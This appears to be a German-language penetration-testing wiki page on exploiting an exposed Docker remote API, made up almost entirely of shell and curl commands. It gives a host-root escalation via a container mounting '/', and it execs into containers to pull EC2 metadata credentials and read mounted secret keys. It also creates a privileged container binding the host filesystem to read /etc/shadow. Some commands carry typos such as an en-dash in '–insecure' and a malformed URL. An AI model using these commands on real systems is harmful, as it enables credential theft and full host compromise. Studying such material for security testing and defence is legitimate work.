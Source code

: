 ```bash
containerd:
Version:          1.2.6
GitCommit:        894b81a4b802e4eb2a91d1ce216b8817763c29fb
runc:
Version:          1.0.0-rc8
GitCommit:        425e105d5a03fabd737a126ad93d62a9eeede87f
docker-init:
Version:          0.18.0
GitCommit:        fec3683
```
Wenn Sie **die entfernte Docker-API mit dem `docker`-Befehl kontaktieren können**, können Sie **jede der** **docker** [**Befehle, die zuvor** kommentiert wurden](2375-pentesting-docker.md#basic-commands) ausführen, um mit dem Dienst zu interagieren.

{% hint style="info" %}
Sie können `export DOCKER_HOST="tcp://localhost:2375"` verwenden und **vermeiden**, den `-H`-Parameter mit dem Docker-Befehl zu verwenden.
{% endhint %}

**Schnelle Privilegieneskalation**
```bash
docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash
```
**Curl**

Manchmal sehen Sie **2376** für den **TLS**-Endpunkt. Ich konnte mich nicht mit dem Docker-Client damit verbinden, aber es ist möglich, dies mit curl zu tun.
```bash
#List containers
curl –insecure https://tlsopen.docker.socket:2376/containers/json | jq
#List processes inside a container
curl –insecure https://tlsopen.docker.socket:2376/containers/f9cecac404b01a67e38c6b4111050c86bbb53d375f9cca38fa73ec28cc92c668/top | jq
#Set up and exec job to hit the metadata URL
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/blissful_engelbart/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "wget -qO- http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"]}'
#Get the output
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/4353567ff39966c4d231e936ffe612dbb06e1b7dd68a676ae1f0a9c9c0662d55/start -d '{}'
# list secrets (no secrets/swarm not set up)
curl -s –insecure https://tlsopen.docker.socket:2376/secrets | jq
#Check what is mounted
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "mount"]}'
#Get the output by starting the exec
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/exec/7fe5c7d9c2c56c2b2e6c6a1efe1c757a6da1cd045d9b328ea9512101f72e43aa/start -d '{}'
#Cat the mounted secret
curl –insecure -X POST -H "Content-Type: application/json" https://tlsopen.docker.socket:2376/containers/e280bd8c8feaa1f2c82cabbfa16b823f4dd42583035390a00ae4dce44ffc7439/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "cat /run/secrets/registry-key.key"]}'
#List service (If you have secrets, it’s also worth checking out services in case they are adding secrets via environment variables)
curl -s –insecure https://tls-opendocker.socket:2376/services | jq
#Creating a container that has mounted the host file system and read /etc/shadow
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket2376/containers/create?name=test -d '{"Image":"alpine", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
curl –insecure -X POST -H "Content-Type: application/json" https://tls-opendocker.socket:2376/containers/0f7b010f8db33e6abcfd5595fa2a38afd960a3690f2010282117b72b08e3e192/start?name=test
```